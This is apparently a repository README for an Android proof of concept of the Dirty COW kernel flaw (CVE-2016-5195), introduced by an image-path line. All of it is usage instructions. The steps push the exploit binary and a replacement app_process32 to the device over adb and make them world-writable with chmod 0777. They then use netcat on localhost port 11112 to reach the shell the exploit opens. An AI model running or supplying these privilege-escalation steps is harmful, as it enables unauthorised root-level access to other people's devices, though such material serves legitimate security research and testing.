 # limited_shell_root

limited_shell_root CVE-2016-5195 (dirty cow/dirtycow/dirtyc0w) proof of concept for Android

How to use.

Once compiled

adb push dirtycow /data/local/tmp/dirtycow
adb push recowvery-app_process32 /data/local/tmp/recowvery-app_process32
adb shell chmod 0777 /data/local/tmp/*

adb shell
toybox nc localhost 11112

Shell is now active type ls
